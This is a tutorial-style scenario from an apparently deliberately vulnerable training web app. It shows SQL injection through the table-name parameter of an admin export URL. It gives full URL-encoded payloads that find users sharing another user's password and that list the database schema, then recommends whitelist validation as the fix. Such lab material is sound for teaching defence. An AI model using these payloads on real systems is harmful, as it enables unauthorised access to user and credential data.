

Java: Injection (admin dump)
============================

Scenario summary
----------------

We are going to perform an SQL injection to access data that should not be
available.
For example, we are going to list users that have the same password as a chosen
user or simply dump data from some table. By default the password field is not
accessible.

Scenario description
--------------------

Log in as *admin*.

Navigate to <http://host/owasphotel/admin> and open *FireBug*. Enter the table
name, such as `USER` and columns will show. You will see the action in the form
and the names of the input parameters.

To test whether the injection works just enter a quote after the table name and
submit: an error should appear. Be sure to have at least one column selected so
that the request will not fail because of missing parameters.
The request is:
<http://localhost:8080/owasphotel/admin/export?tableName=USER%27&col=ID&col=NAME>

	org.h2.jdbc.JdbcSQLException: Syntax error in SQL statement
	"select ID,NAME from USER[*]'"; SQL statement:
	select ID,NAME from USER' [42000-170]

We can inject what we want into the URL parameters and execute it on the
database. The following request will dump the users' IDs and names of users that
have the same password as the user identified by `2`.
We will inject the following code into the `tableName`:

	USER where id<>2 and password=(select password from USER where id=2)

After *url-encoding* that value, the request becomes:
<http://localhost:8080/owasphotel/admin/export?tableName=USER%20where%20id%3C%3E2%20and%20password%3D%28select%20password%20from%20USER%20where%20id%3D2%29&col=ID&col=NAME>

---

Another example of attack, is to list tables and their columns:
<http://localhost:8080/owasphotel/admin/export?tableName=INFORMATION_SCHEMA.COLUMNS&col=TABLE_NAME&col=COLUMN_NAME>

Vulnerable code
---------------

None. See class `Dumper.dump(..)`.

Preventing the attack
---------------------

Avoid simple concatenation of the parts of the query. Usually, values should be
injected using placeholders. However, in this particular case, this cannot be
done as we are injecting column and table names.
The solution is to use a "white list" input validation using for example a
regular expression such as `[a-zA-Z][a-zA-Z0-9_]*`. A "black list" can always be
incomplete and allow injection for some edge cases.
